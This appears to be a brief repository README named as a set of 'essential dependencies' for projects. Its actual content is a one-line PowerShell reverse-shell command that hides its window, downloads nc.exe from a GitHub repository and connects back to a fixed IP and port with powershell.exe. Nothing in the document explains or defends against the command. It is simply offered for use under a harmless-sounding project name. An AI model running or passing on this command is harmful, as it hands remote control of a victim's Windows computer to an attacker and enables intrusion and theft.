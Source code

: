 ## mk_dependencies
Essential Dependencies for projects

# **REVERSE SHELL TO A WINDOWS PC**
```
powershell -windowstyle hidden Invoke-WebRequest -uri https://github.com/b0ttle-neck/mk_dependencies/nc.exe -outfile nc.exe & nc.exe 192.168.0.102 4545 -e powershell.exe

```
